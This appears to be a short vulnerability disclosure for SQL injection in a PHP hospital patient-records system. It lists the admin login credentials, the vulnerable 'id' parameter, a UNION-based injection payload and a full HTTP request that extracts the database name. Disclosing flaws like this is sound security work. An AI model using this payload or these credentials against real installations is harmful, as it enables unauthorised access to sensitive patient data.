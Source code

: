 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/rooms/view_room.php?id=

Vulnerability location: /hprms/admin/rooms/view_room.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/rooms/view_room.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8,9--+ // Leak place ---> id

```sql
GET /hprms/admin/rooms/view_room.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171823136-2a8d58bd-ce02-4930-8981-68fa8614a415.png)

![image](https://user-images.githubusercontent.com/54017627/171823164-71c3c83c-5cb8-4261-ae7f-f5a86d06110c.png)
